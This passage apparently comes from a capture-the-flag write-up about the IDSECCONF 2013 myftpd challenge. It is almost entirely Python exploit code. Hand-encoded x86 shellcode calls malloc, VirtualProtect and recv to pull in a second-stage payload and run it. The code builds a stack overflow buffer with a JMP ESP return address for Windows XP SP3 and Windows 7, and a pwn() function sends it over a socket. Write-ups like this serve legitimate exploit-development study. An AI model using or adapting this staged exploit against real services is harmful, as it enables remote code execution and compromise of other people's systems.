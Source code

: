 ``` python
  # prepare for the malloc call and call it
  block1 += "\x8B\xF8"                           # MOV EDI, EAX
  block1 += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
  block1 += "\x8A\xE0"                           # MOV AH, AL
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `malloc`
  block1 += "\xFF\xD3"                           # CALL EBX
  block1 += "\xEB\x9D"                           # JMP BLOCK2

  block2  = ""
  block2 += "\x59\x51"                           # POP ECX, PUSH ECX
  # save the memory handle, and push it up ready for later use
  block2 += "\x8B\xF0"                           # MOV ESI, EAX
  block2 += "\x50"                               # PUSH EAX
  # set up virtual protect call
  block2 += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
  block2 += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
  block2 += "\x50"                               # PUSH EAX
  block2 += "\x6A\x40"                           # PUSH 0x40
  block2 += "\x51"                               # PUSH ECX
  block2 += "\x56"                               # PUSH ESI
  # call virtual protect
  block2 += "\xFF\xD3"                           # CALL EBX
  # prep the call for recv
  block2 += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
  block2 += "\x57"                               # PUSH EDI
  # jump to tucked block
  block2 += "\xEB\x05"                           # JMP <5 bytes forward>

  tucked  = ""
  # call recv
  tucked += "\xFF\x13"                           # CALL [EBX]
  # invoke the payload
  tucked += "\xFF\xE6"                           # JMP ESI

  command  = ""
  command += "Z" * (offsets['SC'] - len(command))
  command += block2
  command += "B" * (offsets['EIP'] - len(command))
  command += struct.pack("<L", target['JMPESP'])
  command += tucked
  command += block1
  command += "E" * (max_size - len(command))
  return command

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

# the start of our collection of supported platforms
targets = [
    { 'Name': 'Windows XP SP3', 'Func': windows_xp, 'JMPESP': 0x7e4456f7 },
    { 'Name': 'Windows 7', 'Func': windows_7, 'PPR': 0x00403723 }
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization